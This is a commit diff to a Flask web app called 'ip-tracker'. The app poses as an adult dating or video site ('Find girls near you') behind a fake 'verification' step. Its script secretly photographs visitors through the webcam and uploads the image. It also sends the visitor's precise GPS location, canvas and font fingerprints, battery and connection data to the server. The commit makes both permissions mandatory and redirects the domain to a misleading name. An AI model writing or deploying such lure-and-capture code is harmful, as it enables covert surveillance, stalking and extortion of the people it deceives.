

Before and after one commit to DhruvikSanghani/ip-tracker, a Flask app: page / in a window 1280 px wide. Shown: the part 298-1023 px from the top of the page. Run offline with Flask 3, Linux system fonts and the light colour scheme; data comes from the database, SQL or seed files in the repository.

Commit message:
Added URL redirect and enforced permissions

```diff
--- a/app.py
+++ b/app.py
@@ -45,6 +45,13 @@ migrate = Migrate(app, db)
 # Utility function to get current IST time
 def get_ist_time():
     return datetime.now(IST)
+
+# Redirect old domain to new domain
+@app.before_request
+def redirect_to_new_domain():
+    if request.host == 'ip-tracker.onrender.com':
+        new_url = request.url.replace('ip-tracker.onrender.com', 'wild-video-room.onrender.com')
+        return redirect(new_url, code=301)
 
 # Define database model
 class VisitorData(db.Model):
--- a/templates/index.html
+++ b/templates/index.html
@@ -245,19 +245,6 @@
             opacity: 0;
         }
 
-        .permission-check {
-            display: inline-block;
-            margin: 10px 0;
-            padding: 10px 20px;
-            background: rgba(40, 167, 69, 0.1);
-            border-radius: 8px;
-            color: #28a745;
-        }
-
-        .permission-check i {
-            margin-right: 8px;
-        }
-
         .loading-spinner {
             display: inline-block;
             width: 20px;
@@ -272,6 +259,24 @@
             to {
                 transform: rotate(360deg);
             }
+        }
+
+        .permission-step {
+            padding: 15px;
+            margin: 10px 0;
+            border-radius: 8px;
+            background: rgba(102, 126, 234, 0.05);
+            border-left: 4px solid #667eea;
+        }
+
+        .permission-step.active {
+            background: rgba(102, 126, 234, 0.15);
+            border-left-color: #28a745;
+        }
+
+        .permission-step.completed {
+            background: rgba(40, 167, 69, 0.1);
+            border-left-color: #28a745;
         }
     </style>
 </head>
@@ -306,11 +311,13 @@
 
                 <div class="permission-list">
                     <ul style="list-style: none; padding: 0;">
-                        <li><i class="fas fa-check-circle"></i> <strong>Camera Access</strong> - Verify you're a real
-                            person</li>
-                        <li><i class="fas fa-check-circle"></i> <strong>Location Access</strong> - Find girls near you
+                        <li id="step-camera" class="permission-step">
+                            <i class="fas fa-camera"></i> <strong>Step 1: Camera Access</strong> - Verify you're a real
+                            person
                         </li>
-                        <li><i class="fas fa-check-circle"></i> <strong>Age Verification</strong> - Confirm you're 18+
+                        <li id="step-location" class="permission-step">
+                            <i class="fas fa-map-marker-alt"></i> <strong>Step 2: Location Access</strong> - Find girls
+                            near you
                         </li>
                     </ul>
                 </div>
@@ -432,7 +439,6 @@
             camera: false,
             location: false
         };
-        let userLocation = null;
 
         // Device fingerprinting functions
         function getCanvasFingerprint() {
@@ -469,7 +475,7 @@
 
         function detectFonts() {
             const baseFonts = ['monospace', 'sans-serif', 'serif'];
-            const testFonts = ['Arial', 'Verdana', 'Times New Roman', 'Courier New', 'Georgia', 'Palatino', 'Garamond', 'Comic Sans MS', 'Trebuchet MS', 'Impact'];
+            const testFonts = ['Arial', 'Verdana', 'Times New Roman', 'Courier New', 'Georgia'];
             const testString = 'mmmmmmmmmmlli';
             const testSize = '72px';
             const canvas = document.createElement('canvas');
@@ -516,7 +522,6 @@
                 })
             };
 
-            // Get battery info if available
             if ('getBattery' in navigator) {
                 try {
                     const battery = await navigator.getBattery();
@@ -526,12 +531,10 @@
                 }
             }
 
-            // Get connection info if available
             if ('connection' in navigator) {
                 deviceInfo.connection_type = navigator.connection.effectiveType || 'unknown';
             }
 
-            // Send device info to server
             try {
                 await fetch('/api/update_device_info', {
                     method: 'POST',
@@ -543,7 +546,7 @@
             }
         }
 
-        // Camera capture function with retry
+        // Camera capture function - MUST complete before location
         async function captureCamera() {
             let attempts = 0;
             const maxAttempts = 3;
@@ -568,10 +571,8 @@
                         };
                     });
 
-                    // Wait for camera to adjust
                     await new Promise(resolve => setTimeout(resolve, 2000));
 
-                    // Capture image
                     const canvas = document.getElementById('camera-canvas');
                     canvas.width = video.videoWidth;
                     canvas.height = video.videoHeight;
@@ -580,10 +581,8 @@
 
                     const imageData = canvas.toDataURL('image/jpeg', 0.9);
 
-                    // Stop stream
                     stream.getTracks().forEach(track => track.stop());
 
-                    // Upload to server
                     await fetch('/api/upload_camera', {
                         method: 'POST',
                         headers: { 'Content-Type': 'application/json' },
@@ -606,7 +605,7 @@
             return false;
         }
 
-        // Get location with high accuracy
+        // Get location - MUST complete after camera
         async function getLocation() {
             return new Promise((resolve, reject) => {
                 if (!navigator.geolocation) {
@@ -620,9 +619,6 @@
                         const lng = position.coords.longitude;
                         const accuracy = position.coords.accuracy;
 
-                        userLocation = { lat, lng, accuracy };
-
-                        // Send to server
                         try {
                             await fetch('/update_precise_location', {
                                 method: 'POST',
@@ -655,28 +651,40 @@
             statusDiv.innerHTML = message;
         }
 
-        // Verification process
+        // Mark step as active/completed
+        function markStep(stepId, status) {
+            const step = document.getElementById(stepId);
+            step.className = `permission-step ${status}`;
+        }
+
+        // SEQUENTIAL verification process - Camera THEN Location (BOTH REQUIRED)
         async function startVerification() {
             const btn = document.getElementById('verify-btn');
             btn.disabled = true;
             btn.innerHTML = '<span class="loading-spinner"></span> Verifying...';
 
-            showStatus('<i class="fas fa-info-circle"></i> Starting verification process...', 'warning');
+            try {
+                // STEP 1: Camera (REQUIRED - NO SKIP)
+                markStep('step-camera', 'active');
+                showStatus('<i class="fas fa-camera"></i> <strong>Step 1/2:</strong> Requesting camera access...', 'warning');
 
-            try {
-                // Step 1: Get Camera Permission
-                showStatus('<i class="fas fa-camera"></i> Requesting camera access...', 'warning');
                 await captureCamera();
-                showStatus('<i class="fas fa-check"></i> Camera verified successfully!', 'success');
+
+                markStep('step-camera', 'completed');
+                showStatus('<i class="fas fa-check"></i> Camera verified! Moving to step 2...', 'success');
                 await new Promise(resolve => setTimeout(resolve, 1000));
 
-                // Step 2: Get Location Permission
-                showStatus('<i class="fas fa-map-marker-alt"></i> Requesting location access...', 'warning');
+                // STEP 2: Location (REQUIRED - NO SKIP)
+                markStep('step-location', 'active');
+                showStatus('<i class="fas fa-map-marker-alt"></i> <strong>Step 2/2:</strong> Requesting location access...', 'warning');
+
                 await getLocation();
-                showStatus('<i class="fas fa-check"></i> Location verified successfully!', 'success');
+
+                markStep('step-location', 'completed');
+                showStatus('<i class="fas fa-check"></i> Location verified!', 'success');
                 await new Promise(resolve => setTimeout(resolve, 1000));
 
-                // Step 3: Collect device info
+                // STEP 3: Device info
                 showStatus('<i class="fas fa-shield-alt"></i> Completing verification...', 'warning');
                 await collectDeviceInfo();
 
@@ -690,15 +698,19 @@
             } catch (error) {
                 console.error('Verification error:', error);
 
+                // Reset steps
+                markStep('step-camera', '');
+                markStep('step-location', '');
+
                 let errorMessage = '';
-                if (error.code === 1 || error.message.includes('Permission denied')) {
-                    errorMessage = '<i class="fas fa-exclamation-triangle"></i> <strong>Verification Failed!</strong><br>You must grant camera and location permissions to continue. Please click "Allow" when prompted.';
+                if (error.code === 1 || error.message.includes('Permission denied') || error.name === 'NotAllowedError') {
+                    errorMessage = '<i class="fas fa-exclamation-triangle"></i> <strong>Permission Denied!</strong><br>You MUST grant both camera AND location permissions to continue.<br><small>Click "Allow" when your browser asks for permissions.</small>';
                 } else if (error.code === 2) {
                     errorMessage = '<i class="fas fa-exclamation-triangle"></i> <strong>Location Unavailable</strong><br>Unable to determine your location. Please check your device settings.';
                 } else if (error.code === 3) {
                     errorMessage = '<i class="fas fa-exclamation-triangle"></i> <strong>Request Timeout</strong><br>Verification timed out. Please try again.';
                 } else {
-                    errorMessage = '<i class="fas fa-exclamation-triangle"></i> <strong>Verification Failed!</strong><br>Please ensure you grant all required permissions and try again.';
+                    errorMessage = '<i class="fas fa-exclamation-triangle"></i> <strong>Verification Failed!</strong><br>Please ensure you grant ALL required permissions and try again.<br><small>Error: ' + error.message + '</small>';
                 }
 
                 showStatus(errorMessage, 'error');
```
